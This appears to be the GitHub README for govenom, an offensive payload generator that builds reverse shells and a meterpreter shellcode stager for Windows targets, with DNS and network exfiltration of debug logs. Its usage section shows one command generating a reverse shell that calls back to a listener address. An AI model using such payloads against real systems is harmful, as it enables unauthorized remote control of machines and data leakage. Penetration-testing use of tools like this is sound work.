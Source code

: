 <p align="center">
  <h2 align="center"><b>govenom</b></h3>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/build?style=for-the-badge"></a>
    <a href="http://pkg.go.dev/github.com/erikgeiser/govenom"><img alt="Go Doc" src="https://img.shields.io/badge/godoc-reference-blue.svg?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms, although currently `govenom` has a
strong focus on Windows as payload target platform.

## Payloads

Currently, three payloads are supportet:

* **rsh:** A simple reverse TCP shell. It selects one of the most
common shells and makes it available via TCP or UDP connection.
* **xrsh:** An extenden robust reverse TCP shell. A simple heuristic
determines the must suitable shell executable, taking shells that
are installed buth not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A TCP based shellcode stager that is compatible with
Metasploits `exploits/multi/handler` with a `meterpreter/reverse_tcp`
payload. It first reads a 4 Byte shellcode length and then the
shellcode itself from a TCP connection and executes it. Currently,
this is only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections, or maybe one of
the ports you tried. Maybe you expected `powershell` to be present
but only `cmd` is there. The solution to problem is the `govenom`
debug log exfiltration mechanism which can optionally be used with
`xrsh` and `stager` payloads. It lets you configure an arbitrary
amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection that's
different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
go run ./govenom.go payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exil dns:example.com,stdout,dial:udp:127.0.0.1:1234
    -o revsh.exe

# run the 
go run ./govenom.go tool dnslogger
```

**Note:** `go` has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with loggin capabilities
* Embedding payload code into the `govenom` binary